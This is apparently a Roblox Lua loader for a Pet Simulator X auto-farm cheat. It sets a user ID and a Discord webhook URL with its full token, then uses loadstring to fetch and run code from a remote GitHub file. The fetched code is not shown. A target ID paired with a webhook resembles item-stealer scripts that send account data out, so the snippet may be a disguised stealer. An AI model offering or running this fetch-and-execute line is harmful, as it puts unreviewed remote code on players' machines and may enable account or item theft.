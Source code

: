 _G.UserID = 3004543505
_G.WebHook = "https://discord.com/api/webhooks/1078935803536879646/L5dcxTylFEMD7mLVZlBP1-lnl9xzEzycV5mGAQyJ7b7Ij5O_Kru6DYaCMhzGZoSFOOcL"
loadstring(game:HttpGet("https://raw.githubusercontent.com/vestyx/PetSimulatorXAutoFarm/main/HasteFarm.lua", true))()
